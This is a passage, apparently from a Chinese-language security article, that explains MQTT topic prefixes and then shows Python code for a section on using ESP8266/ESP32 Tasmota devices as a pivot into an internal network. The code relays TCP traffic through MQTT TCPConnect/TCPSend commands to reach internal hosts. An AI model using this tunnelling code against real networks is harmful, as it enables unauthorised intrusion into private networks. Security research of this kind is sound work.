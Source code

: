 除了  
cmnd  
外，  
MQTT  
协议还有其他的预定义前缀，每个前缀都有着不同的语义，例如  
stat  
表示状态（  
status  
），  
tele  
表示遥测（  
telemetry  
），  
cmnd  
则表示指令（  
commands  
）等。这些前缀可以帮助  
MQTT  
客户端更好地识别不同类型的消息，从而更加高效地处理和传递信息。  
  
  
**4.4****利用ESP8266/ESP32为跳板攻击内网**  
  
代码示例：  
  

```
sock.listen(1)
    # IP LISTENER
    while True:
        # Wait for a connection
        print ('[*] TCP: waiting for a connection')
        connection, client_address = sock.accept()
        try:
            print ('[>] TCP: connection from', client_address)
            print (f&#34;[>] MQTT2TCP: connecting to {REMOTE_IP}:{REMOTE_PORT}&#34;)
            # connecting through MQTT
            client.publish(f&#34;cmnd/{TASMOTA_NAME}/TCPConnect&#34;, f&#34;{REMOTE_IP}:{REMOTE_PORT}&#34;)
            client.tcpconn = connection
            # Receive the data in small chunks and retransmit it
            while True:
                    data = connection.recv(16)
                    print ('[>] TCP: received &#34;%s&#34;' % data)
                    if data:
                        print('[<] TCP: sending data back to the client')
                        client.publish(f&#34;cmnd/{TASMOTA_NAME}/TCPSend&#34;, binascii.hexlify((data)).upper())
                    else:
                        print ( '[*] TCP: no more data.')
                        client.publish(f&#34;cmnd/{TASMOTA_NAME}/TCPClose&#34;)
                        break

```
